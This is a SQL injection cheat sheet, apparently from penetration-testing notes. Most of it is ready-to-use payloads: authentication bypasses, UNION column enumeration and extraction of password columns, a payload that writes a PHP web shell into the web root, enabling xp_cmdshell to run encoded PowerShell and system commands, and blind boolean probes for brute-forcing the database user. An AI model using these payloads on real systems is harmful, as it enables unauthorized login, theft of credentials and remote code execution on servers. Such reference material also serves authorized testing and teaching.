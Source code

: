 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select password from username admin. 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection
1. Enter SQLi characters to try and get a server error indicating a potential vulnerability.
2. Enter a UNION SQLi payload to try and get the server to respond with an error indicating the columns selected is wrong.
3. Continue to add a NULL column to each payload until it is accepted by the server with no error response.

```
#Identify how many columns returned in query.
'UNION SELECT NULL-- //
'UNION SELECT NULL,NULL-- //
'UNION SELECT NULL,NULL,NULL-- //

#Identify which columns can return string data.
'UNION SELECT 'a',NULL,NULL,NULL-- //

#Extract data.
'UNION SELECT <column>, <column>, FROM table -- //
```
#### Code Execution

```
#Upload a shell.
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

#Enable xp_cmdshell on sql server 2005
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#Execute Commands
' EXEC xp_cmdshell 'powershell -E <base64_payload>'; --
' EXEC xp_cmdshell "net user";
```

##### Blind Boolean SQLi
```
#Validating SQL query manipulation is possible
1=1
1=2
1=1+AND+1=1
1=1+AND+1=2

#can we do sub queries?
1=1+AND(1=1)AND+1=1
1=1+AND(1=2)AND+1=1

#can we do multiple queries?
1=1+AND(1=1)AND+1=1;

#strings ok?
1=1+AND('1'='1')AND+1=1

#accepts wild card? (%25 = % encoded)
1=1+AND('1'+like+'%25')AND+1=1

#check reserved key words / columns 
1=1+AND(CURRENT_USER+like+'%25')AND+1=1

#Start to bruteforce alphabet to get the first value in that column use lower case and upper case as well as numbers and underscore.
1=1+AND(CURRENT_USER+like+'$intruder$%25')AND+1=1 
```